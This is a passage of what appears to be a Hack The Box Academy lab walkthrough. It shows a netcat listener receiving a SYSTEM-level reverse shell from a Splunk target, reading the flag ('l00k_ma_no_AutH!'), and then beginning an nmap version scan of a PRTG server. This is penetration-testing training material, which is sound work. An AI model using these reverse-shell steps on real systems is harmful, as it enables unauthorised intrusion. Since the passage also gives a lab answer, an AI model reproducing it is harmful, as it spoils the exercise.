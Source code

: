 After uploading the tar ball file successfully, students will notice the reverse-shell session has been established:

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-7c8tyukmzo]─[~/reverse_shell_splunk]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.201.50.
Ncat: Connection from 10.129.201.50:52334.

whoami

nt authority\system
PS C:\Windows\system32>
```

At last, students need to print out the flag file "flag.txt" under the `C:\loot\` directory:

Code: powershell

```powershell
cat C:\loot\flag.txt
```

```
PS C:\Windows\system32> cat C:\loot\flag.txt

l00k_ma_no_AutH!
```

Answer: `l00k_ma_no_AutH!`

# PRTG Network Monitor

## Question 1

### "What version of PRTG is running on the target?"

After spawning the target machine, students need to launch an `Nmap` scan to enumerate its services and their versions:

Code: shell

```shell
nmap -A -Pn STMIP
```

```
┌─[us-academy-1]─[10.10.14.6]─[htb-ac413848@htb-f6k4hfqgg8]─[~]
└──╼ [★]$ nmap -A -Pn 10.129.201.50

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-10 17:57 BST
Nmap scan report for 10.129.201.50
Host is up (0.073s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
<SNIP>
8080/tcp open  http          Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (APP03)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-open-proxy: Proxy might be redirecting requests

<SNIP>
```